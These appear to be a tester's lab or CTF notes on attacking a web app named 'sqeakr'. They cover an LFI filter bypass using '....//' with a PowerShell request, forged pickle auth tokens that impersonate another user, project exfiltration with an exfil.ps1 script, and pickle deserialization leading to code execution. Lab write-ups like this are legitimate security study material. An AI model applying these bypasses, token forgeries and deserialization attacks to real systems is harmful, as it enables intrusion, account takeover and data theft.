 notes

See avatars-endpoint-wordlist  
There is an lfi in place on /api/avatars/  
The filter can be bypassed by using ...//  
In fact it seems like it looks for '../' in a the parameter and removes it.  
Through this we have  directory listing on the entire application directory  

We can list directorys by using:
```powershell
iwr -uri http://sqeakr/api/avatars/....// | select content
```


We have a partial auth by manipulating the auth token supplied in the response to a login attempt on /api/login  
The authToken on a unsuccessful login attempt is:  
```
gAN9cQAoWAQAAABhdXRocQFLAFgGAAAAdXNlcmlkcQJYJAAAADAwMDAwMDAwLTAwMDAtNDAwMC04MDAwLTAwMDAwMDAwMDAwMHEDdS4=
```
We can change the id portion to a known user(in this case tomjones):  
```
gAN9cQAoWAQAAABhdXRocQFLAFgGAAAAdXNlcmlkcQJYJAAAADMxZGE4YmExLWNlMGEtNDVmZC05YzcyLTU1NDc3YTFkM2Y2OHEDdS4i
```
We can get users id's from: /api/sqeaks

the authtoken and account set in local storage


Not sure why but today it worked fine with tom jones. We can view his profile etc
Here is the auth token to set in local storage(I had a space in the first attempt):
```
gAN9cQAoWAQAAABhdXRocQFLAFgGAAAAdXNlcmlkcQJYJAAAADMxZGE4YmExLWNlMGEtNDVmZC05YzcyLTU1NDc3YTFkM2Y2OHEDdS4i
``
the preview api function takes the base64encoded filename as a parementer

With the Directory listing on /api/avatars & the lfi on /api/profile/preview we can effectively turn this from a blackbox type test to a whitebox test.  
We can exfil the entire project with exfil.ps1.  
Grab the project root:  
```powershell
./exfil.ps1
```
Grab a specific Folder:  
```powershell
./exfil.ps1 -OutputDir ./sqeakr-exfil/api -BaseFolder '....//api'
```

The most interesting directories are:

- /api
- /sqeakr
- /main
- /templates/pages

sqeakviews.py in api has an insecure deserialization method on the get drafts
https://davidhamann.de/2020/04/05/exploiting-python-pickle/

As a note python serialized data always begins with gASV when it's base64 encoded and c28004c29526000000000000 when its hex encoded.

On the drafts endpoint we can supply a base64 encoded serialized object and get code execution

